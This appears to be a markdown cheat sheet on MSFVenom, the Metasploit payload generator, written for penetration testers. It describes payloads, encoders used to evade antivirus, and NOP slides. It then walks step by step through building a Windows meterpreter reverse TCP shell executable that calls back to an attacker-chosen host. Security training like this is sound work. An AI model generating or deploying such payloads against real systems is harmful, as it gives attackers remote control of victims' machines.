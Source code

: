 # MSFVenom - CheatSheet


# 👉 Overview

---

### 👀 What ?

> MSFVenom is a payload generation and encoding tool that forms part of the Metasploit Framework, a toolkit for penetration testing, exploit development, and vulnerability research. It allows cybersecurity professionals to generate custom payloads, which can be used to exploit vulnerabilities in a target system.
> 

### 🧐 Why ?

> Understanding and effectively using MSFVenom is essential for cybersecurity professionals, particularly those involved in penetration testing or red teaming. The tool is versatile and powerful, enabling the creation of numerous types of payloads for various platforms and for different purposes. It can be used to test the robustness of systems and to identify potential vulnerabilities that could be exploited by malicious hackers.
> 

### ⛏️ How ?

> To use MSFVenom, you first need to choose the payload you want to create. This will depend on the target system and the type of exploit you are planning. Once you have chosen the payload, you can use the '-p' option in MSFVenom to specify it. For instance, to create a reverse TCP shell payload for a Windows system, you might use the command 'msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port> -f exe > payload.exe'.
> 

### ⏳ When ?

> MSFVenom is typically used in the exploitation phase of a penetration test, after potential vulnerabilities have been identified. However, it can also be used in the reconnaissance and scanning phases to create decoy traffic or to probe for weaknesses.
> 

# ⚙️ Technical Explanations

---

MSFVenom is a powerful tool in the Metasploit Framework, designed to generate payloads for penetration testing and exploit development. It works by combining three main elements: payloads, encoders, and NOP slides.

A payload is essentially a piece of code designed to carry out a specific task. This could be anything from creating a reverse shell on the target system, which allows for remote control, to adding a new user with admin rights, providing further access to compromised systems.

Encoders serve a crucial role in the evasion of detection by security systems. These function by transforming the payload into a different format, thereby helping it to bypass anti-virus software and intrusion detection systems. The encoder disguises the malicious intent of the payload, making it appear benign to security systems.

NOP slides, on the other hand, are sequences of 'no operation' instructions used in exploits. These are particularly useful when the exact memory location of the payload is unknown. In essence, a NOP slide creates a 'slippery slope' that leads the execution flow of a program straight to the payload, even when the precise location of this payload in memory is not known.

Together, these three elements allow MSFVenom to generate a wide variety of custom payloads, each tailored to exploit a specific vulnerability in a target system. The tool's versatility and power make it an essential asset for cybersecurity professionals in the fields of penetration testing and red teaming.

Let's take an example of creating a payload that opens a reverse shell on a Windows target.

**Step 1:** Choose the Payload
We'll use the 'windows/meterpreter/reverse_tcp' payload. This payload creates a reverse TCP connection from the target system to the attacker's system.

```bash
msfvenom -p windows/meterpreter/reverse_tcp

```

**Step 2:** Specify the Local Host (LHOST) and Local Port (LPORT)
LHOST and LPORT are the IP address and port on the attacker's machine that the reverse connection will communicate with. Replace `<Your IP Address>` and `<Your Port>` with your actual IP address and port number.

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port>

```

**Step 3:** Specify the File Type
The '-f' option is used to specify the file type of the payload. In this case, we'll use 'exe' to create an executable file.

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port> -f exe

```

**Step 4:** Output the Payload
Finally, we'll use the '>' operator to output the payload to a file named 'payload.exe'.

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port> -f exe > payload.exe

```

Now, you have a custom payload that, when executed on a Windows system, will open a reverse TCP connection back to your specified IP address and port, allowing you remote control of the system.
